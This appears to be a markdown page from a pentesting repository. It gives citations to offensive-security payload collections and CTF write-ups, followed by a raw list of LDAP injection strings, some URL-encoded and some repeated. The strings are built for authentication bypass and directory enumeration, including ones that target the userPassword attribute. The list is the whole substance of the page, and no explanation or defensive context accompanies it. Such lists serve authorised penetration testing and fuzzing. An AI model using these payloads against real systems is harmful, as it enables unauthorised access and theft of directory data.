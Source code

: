 ## Citations
- InfoSecWarrior:  https://github.com/InfoSecWarrior/Offensive-Pentesting-Web/tree/main/Injections/LDAP-Injection
- PayLoadAllTheThings: https://github.com/Ne3o1/PayLoadAllTheThings/tree/master/LDAP%20injection
- LDAP_payload:https://www.freebuf.com/vuls/356049.html
               https://exp-blog.com/safe/ctf/rootme/web-server/ldap-injection-authentication/
               https://blog.csdn.net/qq_45290991/article/details/113713261
               https://blog.csdn.net/luoshu88/article/details/132149278
               https://rce.moe/2022/01/25/ldap-inject-1/



## LDAP payload list：
```
*
*)(&
*))%00
 )(cn=))\x00
 *()|%26'
 *()|&'
 *(|(mail=*))
 *(|(objectclass=*))
 *)(uid=*))(|(uid=*
 */*
 *|
 /
 //
 //*
 @*
 |
 admin*
 admin*)((|userpassword=*)
 admin*)((|userPassword=*)
 x' or name()='username' or 'x'='y
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
!
%21
%26
%28
%29
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
%7C
&
(
)
```
